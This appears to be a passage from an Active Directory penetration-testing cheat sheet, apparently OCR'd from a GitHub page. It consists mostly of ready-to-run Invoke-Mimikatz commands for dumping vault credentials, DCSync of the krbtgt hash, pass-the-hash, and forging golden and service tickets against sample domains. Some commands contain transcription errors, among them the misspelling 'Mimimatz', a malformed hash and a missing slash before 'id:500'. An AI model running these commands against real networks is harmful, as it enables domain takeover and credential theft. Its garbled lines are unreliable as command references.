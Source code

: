     ```powershell
      Invoke-Mimimatz -Command '"token::elevate" "vault::list"'
      Invoke-Mimimatz -Command '"token::elevate" "vault::cred /patch"'
    
    ```
    
- Perform DCSync Attacks (Requires DA Rights) [Mention user in domain\user format only ]
    
    ```powershell
    Invoke-Mimimatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local"'
    
    ```
    
- Perform PassTheHash (PTH) Attacks (Requires Elevated Shell Access; "RunAs Administrator")
    
    ```powershell
    Invoke-Mimimatz -Command '"sekurlsa::pth /user:Administrator /domain:organicsecurity.local /ntlm:c10c9ac42937a938c0ca8faf0af0af02 /run:powershell.exe"'
    
    ```
    
- Use the KRBTGT Hash to craft Golden Ticket (TGT)
    
    ```powershell
	
	# Extract krbtgt account hash
	
	Invoke-Mimikatz -Command '"lsadump::dcsync /user:cyberwarfare\krbtgt"'
	
    # Domain SID :
	whoami /all (of a domain user)
	
	# Adversary Forge Golden ticket in a Domain 
	##Create a ticket on any machine [ "pass the ticket" attack]

	Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:cyberwarfare.corp /sid:S-1-5-21-xxxxx-yyyyy-xxxxx /krbtgt:xxxxxxxxxxxxxxxxxx /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
	
	## Using hash of the Domain Controller computer account, below command provides access to shares on the DC

	Invoke-Mimikatz -Command '"kerberos::golden /domain:ad.domain.local /sid:<sid> /target:dcorp-dc.dollarcorp.moneycorp.local /service:CIFS /rc4:<rc4-hash> /user:Administrator /ptt"'
	
    Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:organicsecurity.local /sid:S-1-5-21-181111131-32111163-5111111 /krbtgt:c10c9ac42937a938c0ca8faf0af0af02 id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ticket:golden_tkt.kirbi"'
    
    Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:organicsecurity.local /sid:S-1-5-21-181111131-32111163-5111111 /krbtgt:c10c9ac42937a938c0ca8faf0af0af02 id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
	
	Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-268341927-4156871508-1792461683 /krbtgt:a9b30e5bO0dc865eadcea941le4ade72d /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
